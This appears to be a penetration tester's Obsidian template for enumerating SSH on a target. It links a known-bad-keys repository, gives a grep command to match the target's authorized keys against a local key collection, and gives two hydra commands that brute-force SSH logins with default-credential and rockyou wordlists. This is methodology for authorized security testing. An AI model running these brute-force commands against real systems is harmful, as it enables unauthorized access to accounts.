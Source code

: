 <% tp.file.rename("1_SSH_")%>

- [ ] Bad keys? (https://github.com/rapid7/ssh-badkeys)

#### Bad Keys
Get entries from targets `authorized_keys` file. Then:
```
$auth_key="";grep -lr $auth_key /home/kali/Documents/SSHKeys/
```

#### Bruteforce default credentials
```bash
hydra -C /usr/share/seclists/Passwords/Default-Credentials/ssh-betterdefaultpasslist.txt ssh://$hip -V -t 4 -I -s 22
```

Or for a given user:
```bash
hydra -l $user -P /usr/share/wordlists/rockyou.txt ssh://$hip$ -V -t 4 -I -s 22
```


# Findings